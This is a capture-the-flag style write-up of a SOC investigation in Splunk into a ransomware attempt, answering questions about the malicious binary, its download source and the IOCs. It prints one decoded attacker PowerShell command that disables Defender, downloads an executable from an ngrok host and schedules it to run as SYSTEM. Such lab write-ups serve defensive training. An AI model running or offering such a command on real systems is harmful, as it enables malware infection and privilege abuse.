

# PS Eclipse

### **Scenario**: You are a SOC Analyst for an MSSP (Managed Security Service Provider) company called TryNotHackMe.

A customer sent an email asking for an analyst to investigate the events that occurred on Keegan's machine on Monday, May 16th, 2022. The client noted that the machine is operational, but some files have a weird file extension. The client is worried that there was a ransomware attempt on Keegan's device.

Your manager has tasked you with checking the events in Splunk to determine what occurred on Keegan's device.

Happy Hunting!

---

SPL query used to search for the event:

```bash
* powershell User="DESKTOP-TBV8NEF\\keegan"
```

### 1. A suspicious binary was downloaded to the endpoint. What was the name of the binary?

### 2. What is the address the binary was downloaded from?



To decode the encoded payload, I used [**`https://dencode.com/`**](https://dencode.com/)

```bash
Set-MpPreference -DisableRealtimeMonitoring $true;wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
```

From the decoded payload, I got the suspicious file name and the URL from where it gets downloaded.

### 3. What Windows executable was used to download the suspicious binary?

### 4. What command was executed to configure the suspicious binary to run with elevated privileges?


In the same event log, I got the answers to the other two questions as well: the Windows executable used to download the suspicious binary and the command that was executed to configure the suspicious binary to run with elevated privileges.

### 5. What permissions will the suspicious binary run as? What was the command to run the binary with elevated privileges?


To find out what permissions the suspicious binary will run with? What was the command to run the binary with elevated privileges?

I checked the command line section, and from the previous task, we know that the user is System (It is written as **NT Authotity/System**), and the command is shown in the screenshot.

### 6. The suspicious binary connected to a remote server. What address did it connect to?


Now I have to find the server the malicious file is connecting to. For that, I used the file name and filtered by query name, and I got the URL. I used CyberChef to defang the URL.

### 7. A PowerShell script was downloaded to the same location as the suspicious binary. What was the name of the file?


A PowerShell script was downloaded to the same location as the suspicious binary. Now we know it’s a PowerShell script, so the extension is**`.ps1`**

And I searched for it and got the name in the first event.

### 8. The script was flagged as malicious. What do you think the actual name of the malicious script?


To find out the actual name of the file, I used the **SHA256** hash and searched it on VirusTotal, and I got the actual file name.

### 9. A ransomware note was saved to disk, which can serve as an IOC. What is the full path to which the ransom note was saved?


We knew the original name of the malicious file from the previous task, so I searched for it, and I found the event that contained the full path of the ransom note.

### 10. The script saved an image file to disk to replace the user's desktop wallpaper, which can also serve as an IOC. What is the full path of the image?


While looking for the previous task’s ransom note, I already got the name of the image file.
